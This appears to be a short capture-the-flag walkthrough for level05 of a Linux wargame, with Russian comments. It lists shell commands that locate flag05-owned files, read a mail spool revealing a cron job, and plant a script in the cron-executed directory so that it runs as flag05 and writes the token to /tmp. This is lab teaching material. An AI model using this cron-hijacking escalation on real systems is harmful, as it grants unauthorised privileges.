```
find / -user flag05 2>/dev/null

env
MAIL=/var/mail/level05
cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
cat /usr/sbin/openarenaserver
cd /opt/openarenaserver/
echo "getflag > /tmp/flag05" > script
Ждем 2 минуты
cat /tmp/flag05
Увидим токен
```
[Crontab guru](https://crontab.guru/#*/2_*_*_*_*)